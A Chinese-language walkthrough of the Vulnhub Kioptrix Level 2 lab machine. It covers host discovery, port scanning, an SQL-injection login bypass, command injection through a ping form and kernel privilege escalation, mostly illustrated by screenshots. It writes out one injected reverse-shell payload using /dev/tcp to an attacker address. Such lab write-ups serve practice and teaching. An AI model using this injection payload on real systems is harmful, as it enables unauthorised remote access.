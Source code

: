 ```yaml
---
title: Vulnhub-Kioptrix_Level2
date: 2025-2-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](././././././././././Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](././././././././././Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](././././././././././Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](././././././././././Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](././././././././././Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](././././././././././Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](././././././././././Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](././././././././././Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](././././././././././Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](././././././././././Kioptrix%20Level2/image-20250319175440036.png)

成功提权